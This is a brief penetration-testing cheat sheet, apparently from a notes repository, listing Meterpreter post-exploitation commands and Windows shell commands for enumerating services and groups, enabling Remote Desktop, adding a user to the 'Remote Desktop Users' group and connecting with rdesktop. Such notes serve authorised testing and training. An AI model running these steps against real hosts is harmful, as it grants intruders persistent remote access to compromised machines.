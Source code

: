 ## Meterpreter
- run service_manager -i
- run post/windows/gather/enum_services
- run getgui -e

## Shell
- net start
- wmic service where 'Caption like "Remote%" and started=True' get Caption
- net localgroup
- net localgroup "[group]"
- net localgroup "Remote Desktop Users" [user] /add
- rdesktop [ip] -u [user] -p [password]